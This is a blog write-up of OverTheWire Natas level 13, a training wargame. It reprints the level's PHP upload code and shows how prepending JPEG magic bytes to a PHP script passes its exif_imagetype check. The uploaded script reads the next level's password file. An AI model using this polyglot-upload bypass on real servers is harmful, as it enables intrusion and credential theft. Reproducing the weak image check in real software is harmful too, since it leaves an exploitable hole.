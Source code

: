 ```yaml
---
layout: post
title: "OverTheWire Natas Level 13"
date: 2012-11-12T06:44:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - exif
 - natas
 - php
 - hacking
---
```


[Level 13](http://natas13.natas.labs.overthewire.org) of [OverTheWire's](http://www.overthewire.org) Natas wargame is extremely similar to Level 12. The only difference now, is that it's validating that the file is in fact an image. This however is flawed, as exif data can be faked.

<!-- more -->

It starts out with a similar upload prompt as last time.

{% img /images/natas13_1.png %}

The source code is super similar to last time.

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Just like last time, I saved the HTML down to my local machine, and made 2 changes, for the url, and the filename. 

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="http://natas13.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="file.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The main difference to get around the exif changing in this case, is to put the JPEG magic-bytes into the beginning of the file. I found the JPEG magic-bytes by simply googling the [JPEG](http://www.digitalpreservation.gov/formats/fdd/fdd000018.shtml) file format</a>. 

I first created a small file that contained the magic bytes. 

```
mandreko$ echo -e "\xff\xd8\xff\xe0" > jpeg_magic
```

Next, I created my PHP script to upload (same as last level, except a new file to read). 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo "\n" . $file;
?>
```

Then to combine these files, I just used "cat". 

```
mandreko$ cat jpeg_magic upload.php > upload2.php
```

I then uploaded "upload2.php" using my local HTML form that I created.

{% img /images/natas13_2.png %}

Just like that, it let me past the logic to verify it was an image type. Once I clicked on the link to the uploaded file, it showed me the magic-bytes, followed by the password to the next level.

{% img /images/natas13_3.png %}
